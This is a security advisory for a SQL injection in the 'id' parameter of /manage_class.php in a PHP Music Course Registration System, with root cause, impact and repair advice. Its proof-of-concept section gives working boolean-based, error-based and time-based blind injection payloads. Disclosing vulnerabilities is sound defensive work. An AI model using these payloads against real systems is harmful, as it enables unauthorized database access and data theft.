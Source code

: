 # A SQL injection vulnerability exists in Music Course Registration system project V1.0 /manage_class.php

## Vulnerability author:
wanglun

## NAME OF AFFECTED PRODUCT
PHP music course registration system project

## Vendor Homepage
https://www.sourcecodester.com/php/15362/music-class-enrollment-site-phpoop-free-source-code.html

## VERSION: 
1.0
## Software Link
https://www.sourcecodester.com/download-code?nid=15362&title=Music+Class+Enrollment+System+in+PHP%2FOOP+Free+Source+Code

## Vulnerable File
/manage_class.php

# PROBLEM TYPE
## Vulnerability Type
SQL injection

## Root Cause
An SQL injection vulnerability was found in the /manage_class.php file of the Music Course Registration System project. The cause of the problem is that the attacker injects malicious code from the parameter "id" and uses it directly in the SQL query without proper cleaning or validation. This allows attackers to forge input values, thereby manipulating SQL queries and performing unauthorized actions.

## Impact
Attackers can exploit this SQL injection vulnerability to achieve unauthorized database access, sensitive data leakage, data tampering, comprehensive system control, and even service interruption, posing a serious threat to system security and business continuity.

## DESCRIPTION
During the security review of the Music Course Registration System, I discovered a serious SQL injection vulnerability in the file "/manage_class.php". This vulnerability stems from inadequate validation of user input for the 'id' parameter, allowing an attacker to inject malicious SQL queries. As a result, attackers can gain unauthorized access to databases, modify or delete data, and access sensitive information. Immediate remedial action is needed to ensure system security and protect data integrity.

# Vulnerability details and POC
## Vulnerability lonameion:
'id' parameter

## Payload:
http://localhost:80/mces/admin/?page=classes/manage_class&id=4' AND (SELECT 4594 FROM (SELECT(SLEEP(5)))ausq) AND 'oWIJ'='oWIJ

---
Parameter: id (GET)

    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: page=classes/manage_class&id=4' AND 4411=4411 AND 'coQB'='coQB

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: page=classes/manage_class&id=4' AND (SELECT 1734 FROM(SELECT COUNT(*),CONCAT(0x7178626a71,(SELECT (ELT(1734=1734,1))),0x7170787171,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a) AND 'ajTx'='ajTx

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: page=classes/manage_class&id=4' AND (SELECT 8993 FROM (SELECT(SLEEP(5)))FvcJ) AND 'eYKe'='eYKe
---

## The following are screenshots of some specific information obtained from testing and running with the sqlmap tool:

Payload: 
http://localhost:80/mces/admin/?page=classes/manage_class&id=4' AND (SELECT 4594 FROM (SELECT(SLEEP(5)))ausq) AND 'oWIJ'='oWIJ

![image](https://github.com/user-attachments/assets/99f448cc-ba5f-4f51-bc99-2b41d5389e81)

![image](https://github.com/user-attachments/assets/a009953f-0066-4d84-9e94-312c29169713)

# Suggested repair
1.Use prepared statements and parameter binding:
Preparing statements can prevent SQL injection as they separate SQL code from user input data. When using prepare statements, the value entered by the user is treated as pure data and will not be interpreted as SQL code.

2.Input validation and filtering:
Strictly validate and filter user input data to ensure it conforms to the expected format.

3.Minimize database user permissions:
Ensure that the account used to connect to the database has the minimum necessary permissions. Avoid using accounts with advanced permissions (such as' root 'or' admin ') for daily operations.

4.Regular security audits:
Regularly conduct code and system security audits to promptly identify and fix potential security vulnerabilities.

